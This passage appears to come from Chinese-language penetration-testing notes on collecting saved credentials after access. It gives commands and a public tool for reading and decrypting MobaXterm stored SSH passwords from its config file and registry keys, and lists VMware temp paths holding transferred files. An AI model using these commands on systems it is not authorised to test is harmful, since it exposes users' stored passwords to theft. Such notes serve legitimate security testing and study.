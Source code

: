 

### 3.4 MobaXterm

#### 3.4.1 独立版

```shell
pip3 install pycryptodome  # 改python3 lib库中的crypto为Crypto
git clone https://github.com/HyperSine/how-does-MobaXterm-encrypt-password.git
cd how-does-MobaXterm-encrypt-password/python3/
# 打开安装目录中的相关配置文件MobaXterm.ini，定位到形如以下的配置项，即可开始密码破解
# “ssh22:ubuntu@192.168.44.131=kng1Y0YhWerxkdR54zMFh7WKY2wg6IEbTU2”
python3 MobaXtermCipher.py dec -sp 1 kng1Y0YhWerxkdR54zMFh7WKY2wg6IEbTU2

```

![2021-07-09_171629](https://raw.githubusercontent.com/aplyc1a/blogs_picture/master/2021-07-09_171629.jpg)

#### 3.4.2 安装版

读注册表，导出相关凭据

```shell
# 无管理密码的解密，直接读注册表，从注册表读连接信息和账户
hash reg query HKEY_CURRENT_USER\Software\Mobatek\MobaXterm reg query HKEY_CURRENT_USER\Software\Mobatek\MobaXterm\P
```

凭据解密，需要用到下面这个工具

```shell
https://github.com/HyperSine/how-does-MobaXterm-encrypt-password
```

解密命令如下

```shell
python3 MobaXtermCipher.py dec -sysh desktop-ibe7jr7 -sysu yang -h 192.168.3.130   -u root lJWaoLu57REbPnQW62E0fUpfVA38r/hKFtVH4
```

![2021-07-09_171719](https://raw.githubusercontent.com/aplyc1a/blogs_picture/master/2021-07-09_171719.jpg)

### 3.5 VMware

```shell
#一些传送的文件
C:\Users\%username%\AppData\Local\Temp\vmware-%username%\VMwareDnD
#每台vmware的log日志都含有启动操作信息。
C:\Users\%username%\AppData\Local\Temp\vmware-%username%\
#vmware内主机的备注信息
```



## 4 wifi口令
